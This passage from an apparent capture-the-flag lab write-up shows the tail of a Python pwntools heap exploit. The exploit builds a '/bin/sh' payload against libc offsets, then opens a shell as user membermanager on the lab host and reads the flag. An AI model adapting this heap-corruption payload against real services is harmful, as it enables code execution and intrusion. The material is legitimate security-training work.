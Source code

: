 ```

change(payload)

payload  = b""
payload += b"A" * 256
payload += b"/bin/sh\x00"
payload += p64(0x61)
payload += p64(0)
payload += p64(libc_base + 0x3c5520 - 0x10)
payload += p64(2)
payload += p64(3)
payload += p64(0) * 21
payload += p64(0x6020a0)

edit(1, 1, payload)

shell.sendline(b"1")
shell.sendlineafter(b"size:", str(0x80).encode())
shell.recvuntil(b"[vsyscall]")
shell.recvline()
shell.interactive()
```

  

When we run the script we get a `shell`like the user`membermanager`

```
❯ python3 exploit.py
[+] Opening connection to 10.13.37.10 on port 5555: Done
[*] Switching to interactive mode
$ id
uid=1006(membermanager) gid=1006(membermanager) groups=1006(membermanager)
$ hostname -I
10.13.37.10
$
```

  

By going to your home directory we can see the `flag`, so we simply read it

```
$ cd /home/membermanager
$ ls
flag.txt
membermanager
$ cat flag.txt
JET{h34p_f0r_73h_b4bi3z}

                                                 __----~~~~~~~~~~~------___
                                      .  .   ~~//====......          __--~ ~~  
                      -.            \_|//     |||\\  ~~~~~~::::... /~
                   ___-==_       _-~o~  \/    |||  \\            _/~~-
           __---~~~.==~||\=_    -_--~/_-~|-   |\\   \\        _/~
       _-~~     .=~    |  \\-_    '-~7  /-   /  ||    \      /
     .~       .~       |   \\ -_    /  /-   /   ||      \   /
    /  ____  /         |     \\ ~-_/  /|- _/   .||       \ /
    |~~    ~~|--~~~~--_ \     ~==-/   | \~--===~~        .\
             '         ~-|      /|    |-~\~~       __--~~
                         |-~~-_/ |    |   ~\_   _-~            /\
                              /  \     \__   \/~                \__
                          _--~ _/ | .-~~____--~-/                  ~~==.
                         ((->/~   '.|||' -_|    ~~-/ ,              . _||
                                    -_     ~\      ~~---l__i__i__i--~~_/
                                    _-~-__   ~)  \--______________--~~
                                  //.-~~~-~_--~- |-------~~~~~~~~
```